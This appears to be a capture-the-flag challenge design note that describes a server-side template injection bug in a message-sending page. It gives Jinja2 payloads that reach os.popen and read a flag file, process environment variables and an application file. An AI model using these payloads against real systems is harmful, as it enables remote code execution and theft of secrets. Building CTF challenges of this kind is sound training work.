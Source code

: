 ```
--> Challenge 4  : On the Web Page there will be an option to Send a Message to Any User (SSTI). Outbound Connection will be closed and read privelleges will be rovided for /home/final.txt:

					Enter the Username to Send a Message

This value shall be reflected on the URL and webpage like :

   					http://ctfchallenge.awesome:8080/admin/sendmessage?user= <input_by_the_candidate>

   					Resetting Password for user <SSTI_Response>

This is where there shall be a SSTI bug and exploiting it could gain the candidate RCE on the WEBSERVER.

				   http://ctfchallenge.awesome:8080/admin/sendmessage?user={{7*'7'}}
				   Resetting Password for user 7777777


After gaining the RCE /home/final.txt would be the final flag.

					http://ctfchallenge.awesome:8080/admin/sendmessage?user={{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat /home/final.txt').read() }}
					Resetting Password for user <Contents of /home/final.txt>

```

expolit : 

/buy/{{ "foo".__class__.__base__.__subclasses__()[370].__init__.__globals__['sys'].modules['os'].popen("cat /proc/self/environ").read() }}
/buy/{{ "foo".__class__.__base__.__subclasses__()[370].__init__.__globals__['sys'].modules['os'].popen("cat /srv/http/app2/src/required_file").read() }}
